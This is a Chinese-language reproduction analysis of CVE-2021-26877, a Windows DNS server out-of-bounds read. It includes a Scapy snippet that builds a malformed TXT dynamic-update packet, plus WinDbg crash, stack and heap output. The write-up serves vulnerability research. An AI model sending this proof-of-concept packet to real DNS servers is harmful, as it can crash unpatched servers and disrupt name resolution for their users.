 

## CVE-2021-26877 漏洞复现分析
- 使用 TXT length 大于 Data length 的 TXT 资源记录进行区域的动态更新时可触发此漏洞
根据 McAfee 博客中的信息可知，此漏洞在更新 TXT 记录时产生，TXT 记录中的 TXT Length 被设置为 0xFF，这个值大于资源记录里指定的 Data Length (0xbd)，这个长度表示的是这个记录后面的所有数据的长度，在当前场景下，包括所有的 TXT Length 和 TXT 数据的长度。使用 Scapy 构造数据包及抓包数据如下：

```
query = DNSQR(qname='mal', qtype='SOA')
    RRTXT = DNSRR(rrname="A.mal",type='TXT',rdlen=0xbd,rdata='\x41'*0xff)   // 0xff 可修改为更大的数，理论上只要比 0xbd 大即可
    packet = IP(dst=ip)/UDP()/DNS(id=random.randint(0,65535),opcode=5,aa=1,tc=1,rd=0,ra=1,cd=1,rcode=5,qd=query,ns=RRTXT)
```

[![](https://p5.ssl.qhimg.com/t013ad3ebc6723c1a8a.png)](https://p5.ssl.qhimg.com/t013ad3ebc6723c1a8a.png)

配置 DNS 服务器，新增一个名为 MAL 的主要区域，并设置允许动态更新。(启用页堆) 以下为漏洞触发场景，问题出现在 dns!File_PlaceStringInFileBuffer 函数中，程序尝试访问超出边界的数据：

```
0:019&gt; g
(874.9a0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
dns!File_PlaceStringInFileBuffer+0xa2:
00007ff7`50cc67f6 410fb60c24      movzx   ecx,byte ptr [r12] ds:00000271`34988000=??

0:004&gt; k
 # Child-SP          RetAddr           Call Site
00 000000bc`b82ff3f0 00007ff7`50cc731e dns!File_PlaceStringInFileBuffer+0xa2
01 000000bc`b82ff440 00007ff7`50bc26a9 dns!TxtFileWrite+0x6e
02 000000bc`b82ff490 00007ff7`50c5da3d dns!RR_WriteToFile+0x205
03 000000bc`b82ff4f0 00007ff7`50c5ecc6 dns!Up_LogZoneUpdate+0x6ad
04 000000bc`b82ffc70 00007ff7`50c5ea30 dns!Up_CompleteZoneUpdate+0x26e
05 000000bc`b82ffd00 00007ff7`50c60c96 dns!Up_ExecuteUpdateEx+0x338
06 000000bc`b82ffd60 00007ff7`50c616ba dns!processWireUpdateMessage+0x456
07 000000bc`b82ffe00 00007ff7`50c550ad dns!Update_Thread+0x12a

0:004&gt; !heap -p -a r12    //在 CopyWireRead 函数中调用 RR_AllocateEx 申请空间。用户可用的长度到 0x27134987ff5
    address 0000027134988000 found in
    _DPH_HEAP_ROOT @ 271126b1000
    in busy allocation (  DPH_HEAP_BLOCK:         UserAddr         UserSize -         VirtAddr         VirtSize)
                             27132a28f08:      27134987ef0              105 -      27134987000             2000
    00007fff07e86d67 ntdll!RtlDebugAllocateHeap+0x000000000000003f
    00007fff07e2cade ntdll!RtlpAllocateHeap+0x000000000009d27e
    00007fff07d8da21 ntdll!RtlpAllocateHeapInternal+0x0000000000000991
    00007ff750cc2b4d dns!allocMemory+0x0000000000000039
    00007ff750cc2f28 dns!Mem_Alloc+0x000000000000008c
    00007ff750cc35c2 dns!RR_AllocateEx+0x000000000000003a
    00007ff750c3efd4 dns!CopyWireRead+0x0000000000000024
    00007ff750c3fed2 dns!Wire_CreateRecordFromWire+0x000000000000015a
    00007ff750c5f3d5 dns!writeUpdateFromPacketRecord+0x0000000000000035
    00007ff750c5fbe7 dns!parseUpdatePacket+0x0000000000000423
    00007ff750c60b6d dns!processWireUpdateMessage+0x000000000000032d
    00007ff750c616ba dns!Update_Thread+0x000000000000012a
    00007ff750c550ad dns!threadTopFunction+0x000000000000007d
    00007fff054a7974 KERNEL32!BaseThreadInitThunk+0x0000000000000014
    00007fff07dea271 ntdll!RtlUserThreadStart+0x0000000000000021

0:004&gt; db r12-20    //这里要访问 0x27134988000 处的数据
00000271`34987fe0  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
00000271`34987ff0  41 41 41 41 41 d0 d0 d0-d0 d0 d0 d0 d0 d0 d0 d0  AAAAA...........
```